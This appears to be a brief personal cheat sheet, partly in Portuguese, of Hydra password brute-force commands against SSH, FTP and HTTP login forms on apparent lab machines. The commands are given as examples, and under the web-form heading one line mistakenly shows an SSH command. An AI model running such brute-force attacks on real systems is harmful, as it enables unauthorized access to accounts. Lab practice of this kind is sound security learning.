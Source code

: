 ### Use to SSH

hydra -l user -P wordlist.txt ssh://10.10.242.212

### FTP
```
hydra -l user -P passlist.txt ftp://MACHINE_IP
```

### POST FORM WEB
```
hydra -l <username> -P <full path to pass> MACHINE_IP -t 4 ssh
```
Exemplo
```
hydra -l <username> -P <wordlist> MACHINE_IP http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V
```
